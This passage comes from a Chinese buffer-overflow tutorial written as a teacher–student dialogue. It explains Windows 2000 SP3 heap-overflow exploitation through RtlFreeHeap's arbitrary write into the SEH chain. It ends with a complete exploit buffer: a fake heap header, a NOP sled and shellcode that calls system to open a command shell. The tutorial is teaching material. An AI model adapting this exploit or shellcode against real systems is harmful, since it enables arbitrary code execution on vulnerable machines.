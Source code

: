 ### 4.4.3 what→where

“在这样的构造下，RtlFreeHeap 的时候会有一系列操作。”老师接着解释道。“首先，esi 是指向‘Buf2’的管理结构，后面会有 esi=esi-24 的操作，esi 就指向了‘Buf1’的存储空间数据。如图 4－46。”

![](img/Q 版缓冲区溢出教程 135236.jpg)

“然后会有， mov eax,[esi]；mov esi, [esi+4] 的操作，现在 eax 和 esi 都是‘Buf1’中的数据了。如图 4－47。”

![](img/Q 版缓冲区溢出教程 135313.jpg)

“最后，有一个 mov [esi]，eax 的操作（图 4－48），即我们想要的 what→where。这里的 where 是 esi，what 是 eax，而且 esi 和 eax 是‘Buf1’中的数据，都是我们可以控制的。”

![](img/Q 版缓冲区溢出教程 135424.jpg)

“哦，那我们精心构造 B 的管理结构的值，并覆盖掉 what 和 where 位置上的值就可以了！”宇强现在明白了。

# 4.4.4 构造和利用

### 4.4.4 构造和利用

“对，我们构造一个示意图（图 4－49）。”

![](img/Q 版缓冲区溢出教程 135522.jpg)

“那我们按照这个结构构造出利用的‘mybuf’就可以了。”大家七手八脚的构造出了 mybuf 数据。

```
char mybuf[] = "11112222"
    "\x1f\xf9\xe2\x77" //what call[esi+0x4c] in user32
    "\x4c\x04\xec\x77" //where TOP SEH in 2000 sp3 cn
    //"\xaa\xaa\xaa\xaa" //test
    "5555666677778888\x03\x00\x05\x00\x00\x09"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    //下面是 Win2000 SP3 下的开 DOS 窗口的 ShellCode，参看第二章
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
    "\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
    "\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
    "\x64\x9f\xE6\x77" //sp3 loadlibrary 地址 0x77e69f64
    "\x52\x8D\x45\xF4\x50" 
    "\xFF\x55\xF0"
    "\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E" 
    "\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4" 
    "\x50\xB8"
    "\xc3\xaf\x01\x78" //SP3 system 地址 0x7801afc3
    "\xFF\xD0"; 
```
